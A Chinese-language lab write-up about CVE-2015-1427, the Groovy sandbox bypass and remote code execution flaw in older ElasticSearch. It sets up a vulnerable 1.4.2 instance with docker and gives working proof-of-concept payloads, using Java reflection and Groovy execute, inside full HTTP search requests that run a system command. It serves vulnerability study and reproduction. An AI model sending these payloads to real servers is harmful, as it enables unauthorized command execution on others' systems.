

ElasticSearch Groovy 沙盒绕过与远程代码执行漏洞（CVE-2015-1427）¶
ElasticSearch是一个分布式的RESTful搜索和分析引擎。
在ElasticSearch 1.3.8和1.4.3之前的版本中，Groovy脚本引擎存在一个漏洞，攻击者可以绕过沙盒保护并在服务器上执行任意代码。
在修复CVE-2014-3120漏洞后，ElasticSearch将默认的动态脚本语言更改为Groovy，并增加了沙盒保护。但是，动态语言执行功能仍然默认启用。本漏洞包含两个方面：
- 沙盒绕过
- Groovy代码执行漏洞
ElasticSearch支持使用"沙盒化"的Groovy语言作为动态脚本引擎。然而，沙盒的实现并不完善。研究人员发现了两种执行命令的方法：
- Lupin的方法：使用Java反射绕过沙盒
- Tang3的方法：直接使用Groovy语言特性执行命令，无需使用Java
基于这两种方法，我们有两个不同的POC。
Java沙盒绕过方法：
java.lang.Math.class.forName("java.lang.Runtime").getRuntime().exec("id").getText()
Groovy直接命令执行方法：
def command='id';def res=command.execute().text;res
参考链接：
- http://jordan-wright.com/blog/2015/03/08/elasticsearch-rce-vulnerability-cve-2015-1427/
- https://github.com/XiphosResearch/exploits
- http://cb.drops.wiki/drops/papers-5107.html
- http://cb.drops.wiki/drops/papers-5142.html
漏洞环境¶
执行以下命令启动一个1.4.2版本的ElasticSearch服务器：
docker compose up -d
环境启动后，可以通过http://your-ip:9200访问ElasticSearch API。
漏洞复现¶
由于查询时需要索引中至少有一条数据，首先发送以下请求添加数据：
POST /website/blog/ HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
{
"name": "test"
}
然后发送包含payload的请求来执行任意命令：
POST /_search?pretty HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/text
Content-Length: 156
{"size":1, "script_fields": {"lupin":{"lang":"groovy","script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"id\").getText()"}}}
命令执行结果将在响应中返回：
